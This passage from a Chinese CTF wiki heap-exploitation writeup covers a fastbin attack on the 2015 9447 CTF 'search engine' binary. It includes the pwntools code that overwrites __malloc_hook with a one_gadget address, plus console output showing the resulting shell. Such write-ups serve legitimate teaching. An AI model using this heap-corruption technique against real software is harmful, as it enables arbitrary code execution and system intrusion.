 那么当再次分配 b 的时候，由于此时 b 的 fd 已经被我们修改为了malloc_hook附近的地址，所以这时候我们再次分配一个 chunk，就会指向 `0x7fd798586aed`。 此后便只需要将 malloc_hook 修改为 one_gadget 地址就可以拿到 shell 了。

```python
    # 3. fastbin attack to malloc_hook nearby chunk
    fake_chunk_addr = main_arena_addr - 0x33
    fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

    index_sentence(fake_chunk)

    index_sentence('a' * 0x60)

    index_sentence('b' * 0x60)

    one_gadget_addr = libc_base + 0xf02a4
    payload = 'a' * 0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60, 'f')
    #gdb.attach(p)
    index_sentence(payload)
    p.interactive()
```

这里可能需要多选择几个 one_gadget 地址，因为 one_gadget 成功是有条件的。

#### shell

```shell
➜  2015_9447ctf_search-engine git:(master) python exp.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './search': pid 31158
[*] PID: 31158
[+] unsortedbin addr: 0x7f802e73bb78
[+] libc base addr: 0x7f802e377000
[*] Switching to interactive mode
Enter the sentence:
$ ls
exp.py       search      search.id1  search.nam
libc.so.6  search.id0  search.id2  search.til
```

当然，这里还有一种[方法](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)，将 chunk 分配到栈上。

## 2017 0ctf babyheap

### 基本信息
